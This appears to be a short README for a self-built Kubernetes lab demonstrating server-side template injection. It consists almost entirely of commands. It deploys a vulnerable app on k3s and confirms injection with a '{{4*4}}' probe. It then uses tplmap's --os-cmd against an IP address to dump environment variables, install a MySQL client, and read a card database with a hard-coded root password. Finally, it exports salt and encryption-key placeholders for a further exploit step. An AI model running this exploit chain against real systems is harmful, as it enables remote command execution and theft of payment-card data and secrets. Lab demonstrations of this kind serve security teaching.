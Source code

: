 # TmKub


curl -sfL https://get.k3s.io | sh -

sudo kubectl get nodes

sudo kubectl apply -f template-injection-manifest.yml

sudo watch kubectl get pods

sudo kubectl get pods -o wide

sudo kubectl describe pods

sudo kubectl exec -ti mysql-db-568f6858f7-z5kkw -- bin/bash


http GET http://localhost:32345/not-found?page={{4*4}}

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'printenv'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'printenv|grep MYSQL'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'apk update && apk add mysql-client'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'mysql -u root --password=S3cr3tPa55w0rd -e "show tables from carddb;"'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'mysql -u root --password=S3cr3tPa55w0rd -e "select * from carddb.cards;"'


Advance Exploit :

export SALT=<environment-SALT-value>Copy
  
export ENC_KEY=<environment-ENC_KEY-value>

sudo kubectl delete -f template-injection-manifest.yml
